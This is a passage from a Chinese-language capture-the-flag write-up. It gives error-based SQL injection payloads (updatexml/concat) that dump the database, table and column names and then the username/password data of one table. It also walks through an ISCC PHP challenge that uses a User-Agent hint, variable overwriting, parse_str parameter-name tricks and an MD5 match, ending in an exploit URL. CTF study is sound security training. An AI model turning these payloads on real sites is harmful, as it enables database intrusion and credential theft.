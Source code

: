 爆库

1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#![image-20250507220236257](D:\ctf wp\201-240.assets\image-20250507220236257.png)

爆表

1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#![image-20250507220629790](D:\ctf wp\201-240.assets\image-20250507220629790.png)

1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#![image-20250507221122167](D:\ctf wp\201-240.assets\image-20250507221122167.png)

1'or(updatexml(1,concat(0x7e,(select(group_concat(username,'~',password))from(H4rDsq1)),0x7e),1))#

![image-20250507221241944](D:\ctf wp\201-240.assets\image-20250507221241944.png)

1'or(updatexml(1,concat(0x7e,(select(group_concat((right(password,25))))from(H4rDsq1)),0x7e),1))#![image-20250507221354705](D:\ctf wp\201-240.assets\image-20250507221354705.png)



## 218.赛博之城  [ISCC]

![image-20250513150256943](D:\ctf wp\201-240.assets\image-20250513150256943.png)

![image-20250513150305095](D:\ctf wp\201-240.assets\image-20250513150305095.png)

想起题目提示“用户代理”和回归基础，于是在user-agent填数据再提交![image-20250514212544069](D:\ctf wp\201-240.assets\image-20250514212544069.png)

查看文件![image-20250514212551069](D:\ctf wp\201-240.assets\image-20250514212551069.png)

![image-20250514232221310](D:\ctf wp\201-240.assets\image-20250514232221310.png)

a=               数字

b=      1 = e559dcee72d03a13110efe9b6355b30d    字母，非0开头

$c=   jibengong                

$ jibengong=$a=    1 

这里有个⾮法参数名传参考察，将第⼀个**_替换为[**

构造intval($b) == 'jibengong'：$b以非数字开头（如a0），其intval为0。
绕过strpos检查：确保$b中的0不在首位（如a0）。
变量覆盖与MD5匹配：通过$$c = $a设置$jibengong为$a的值，并构造parse_str参数使$huiguiflag[$a]等于md5($c)
对于参数三要huigui_jibengong.3进⾏md5后等于huigui_jibengong.2，将jibengong进行md5加密：为e559dcee72d03a13110efe9b6355b30d

```url
huigui[jibengong.1=123&huigui[jibengong.2=a0%3D123%26123%3De559dcee72d03a13110efe9b6355b30d&huigui[jibengong.3=jibengong
```
